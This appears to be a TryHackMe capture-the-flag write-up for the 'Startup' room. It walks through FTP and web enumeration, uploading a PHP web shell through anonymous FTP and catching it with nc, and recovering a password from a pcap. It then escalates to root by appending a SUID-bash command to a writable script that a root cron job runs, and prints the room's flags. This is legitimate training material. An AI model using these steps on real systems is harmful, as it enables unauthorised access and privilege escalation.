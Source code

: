 # Startup (THM)

- https://tryhackme.com/room/startup
- March 3, 2023
- easy

---

## Enumeration

- Nmap Initial

1. 21/ftp vsftpd 3.0.3
   - anonymous login allowed
   - writable
   - important.jpg
   - notice.txt
2. 22/ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
3. 80/http Apache/2.4.18 (Ubuntu)

### Enumerate FTP

- anonymous login

```
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
```

- notice.txt

```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

### Enumerate HTTP

- directory brute forcing with ffuf

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -c
```

- found `files` directory

![](images/2023-03-03-22-59-45.png)

- it is same directory as ftp

## Try User Access

- FTP server's anonymous login, we have full access in ftp directory
- Let's try this

  - put php_shell.php file
  - listen with nc in local machine
  - then, send get request to `http://$IP/files/php_shell.php`

```sh
$ curl http://10.10.33.5/files/ftp/php_shell.php
```

- we get `www-data` user access

![](images/2023-03-03-23-04-31.png)

- `ls -la /`
  - incidents directory
  - recipe.txt which are www-data's

```sh
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

- in incidents, one pcapng file found
- copy to local machine and analyse with wireshark.
- from one tcp stream, found like that

![](images/2023-03-03-23-42-52.png)

- try to login with lennie with password

![](images/2023-03-03-23-45-08.png)

```sh
lennie@startup:~$ cat /home/lennie/user.txt
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}


lennie@startup:~/scripts$ cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh


lennie@startup:/tmp$ ls -lah /home/lennie/scripts/planner.sh
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh

lennie@startup:~/scripts$ cat /etc/print.sh
#!/bin/bash
echo "Done!"

lennie@startup:~/scripts$ ls -lah /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh

```

## Try Root Access

- planner.sh -> run by root, that lennie cannot write
- in planner.sh, it calls /etc/print.sh, that lennie can write
- check which processes are running with pspy64

```sh
2023/03/03 17:57:01 CMD: UID=0     PID=5420   | /bin/bash /home/lennie/scripts/planner.sh
2023/03/03 17:57:01 CMD: UID=0     PID=5419   | /bin/sh -c /home/lennie/scripts/planner.sh
...
```

- found that planner.sh is running once per minute

- write to create SUID bash by root

```sh
echo "cp /etc/bash /tmp/bash; chmod +s /tmp/bash;" >> /etc/print.sh
```

- then, check at /tmp folder and found bash

```sh
/tmp/bash -p
```

- get root access

```sh
$ cat /root/root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
```

---
